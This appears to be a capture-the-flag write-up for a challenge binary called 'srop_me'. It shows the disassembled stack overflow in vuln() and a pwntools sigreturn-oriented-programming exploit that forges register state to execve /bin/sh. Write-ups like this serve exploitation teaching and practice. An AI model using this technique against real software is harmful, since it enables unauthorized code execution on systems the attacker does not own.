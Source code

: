 # ASM

First of all, let's open the file in IDA disassembler
We see very tiny assembly code 
Function *vuln()*:

```asm
vuln proc near
mov     eax, 1
mov     edi, 1          ; fd
mov     rsi, offset msg ; buf
mov     edx, 0Fh        ; count
syscall                 ; LINUX - sys_write
sub     rsp, 20h
mov     eax, 0
mov     edi, 0          ; fd
mov     rsi, rsp        ; buf
mov     edx, 200h       ; count
syscall                 ; LINUX - sys_read
add     rsp, 20h
retn
vuln endp
```

File name is "srop_me", so it's obvious, that we need to use SROP (Sigreturn Oriented Programming).

So our payload contains:
- 32 bytes useless data
- address 0x40101b to read buffer again and make rax = 0xf
- address of syscall to execute syscall with rax = 0xf and control all registers
- and SigreturnFrame to make the register values what we need

Here is the exploit using pwntools:

```python
io  =  start()
io.recvline()

frame  =  SigreturnFrame()
frame.rdi =  0x40200F  # binsh string    
frame.rsi =  0x0
frame.rax =  0x3b  # execve
frame.rdx =  0x0
frame.rbp =  0x402100
frame.rip =  0x401031  # syscall
frame.rsp =  0x402000
    
pl  =  b''
pl  +=  b'A'*32
pl  += p64(0x40101b) # read gadget    
pl  += p64(0x401031) # syscall    
pl  +=  bytes(frame)
    
io.send(pl.ljust(0x200))             
# also we need to send 15 bytes    
# i do it manually via interactive mode
              
io.interactive()
```
